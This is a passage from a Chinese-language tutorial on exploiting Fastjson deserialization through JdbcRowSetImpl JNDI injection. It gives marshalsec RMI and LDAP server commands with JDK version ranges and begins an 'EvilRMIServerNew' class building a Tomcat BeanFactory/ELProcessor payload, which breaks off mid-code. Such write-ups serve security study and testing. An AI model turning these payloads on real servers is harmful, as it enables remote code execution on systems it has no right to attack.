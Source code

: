 ```
setValue:96, FieldDeserializer //反射调用传入类的set函数

…

deserialze:600,  JavaBeanDeserializer 通过循环调用传入类的共有set,get,is函数

…

parseObject:368, DefaultJSONParser 解析传入的json字符串

…
```

第一版的利用原理比较清晰，因为fastjson在处理以@type形式传入的类的时候，会默认调用该类的共有set\get\is函数，因此我们在寻找利用类的时候思路如下：
1. 类的成员变量我们可以控制
1. 想办法在调用类的某个set\get\is函数的时候造成命令执行
于是便找到了JdbcRowSetImpl类，该类在setAutoCommit函数中会对成员变量dataSourceName进行lookup，完美的jndi注入利用。

关于jndi注入的利用方式我在这里简单提一下，因为jndi注入的利用受jdk版本影响较大，所以在利用的时候还是要多尝试的。

注：利用之前当然要先确定一下漏洞是否存在，通过dnslog是个比较好用的法子。
1. 基于rmi的利用方式
适用jdk版本：JDK 6u132, JDK 7u122, JDK 8u113之前

利用方式：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalc.jndi.RMIRefServer

http://127.0.0.1:8080/test/#Expolit
```


1. 基于ldap的利用方式
适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前

利用方式：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalc.jndi.LDAPRefServer

http://127.0.0.1:8080/test/#Expolit
```


1. 基于BeanFactory的利用方式
适用jdk版本：JDK 11.0.1、8u191、7u201、6u211以后

利用前提：因为这个利用方式需要借助服务器本地的类，而这个类在tomcat的jar包里面，一般情况下只能在tomcat上可以利用成功。

利用方式：

```
public class EvilRMIServerNew `{`

    public static void main(String[] args) throws Exception `{`

        System.out.println("Creating evil RMI registry on port 1097");

        Registry registry = LocateRegistry.createRegistry(1097);



        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);

        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
```